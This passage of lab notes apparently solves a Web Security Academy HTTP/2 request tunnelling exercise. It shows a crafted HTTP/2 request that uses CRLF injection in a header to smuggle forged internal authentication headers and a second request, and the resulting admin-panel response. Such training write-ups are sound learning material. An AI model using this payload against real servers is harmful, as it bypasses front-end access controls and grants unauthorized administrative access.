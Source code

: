 ```http
Content-Length: 2993
X-Frame-Options: SAMEORIGIN

HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Cache-Control: no-cache
Set-Cookie: session=ek2Wwd3zOlrt0Y18yPCsZLmrIhSc5AcV; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Keep-Alive: timeout=0
Content-Length: 2945
...
<a href="/admin/delete?username=wiener">Delete</a>
```

>[!success]- Solution without using `HEAD`
Exploited the request tunnelling to access `/admin` with the second request (internal headers has been previously leaked):
>```http
:scheme: https
:method: GET
:path: /admin
:authority: 0a56008e04243cc4826da1cb00360041.web-security-academy.net
cookie: session=GCBNR6VKsT3qtd721L9Hu1EQts1Vk4mr
foo: bar\r\n
X-SSL-VERIFIED: 1\r\n
X-SSL-CLIENT-CN: administrator\r\n
X-FRONTEND-KEY: 3754690398907899\r\n
Content-Length: 0\r\n
\r\n
GET / HTTP/1.1\r\n
Host: 0a56008e04243cc4826da1cb00360041.web-security-academy.net\r\n
asd: test
>```
>
>*Response*
>```http
HTTP/2 200 OK
>
Content-Type: text/html; charset=utf-8
Cache-Control: no-cache
Set-Cookie: session=Q1wl2OJNOdrhjRK4mwxCUHwyfSEGNcAG; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 2945
...
><a href="/admin">Admin panel</a>
><section><h1>Users</h1><div>	<span>wiener - </span><a href="/admin/delete?username=wiener">Delete</a></div><div><span>carlos - </span>	<a href="/admin/delete?username=carlos">Delete</a></div></section>
>```

## Web cache poisoning via HTTP/2 request tunneling
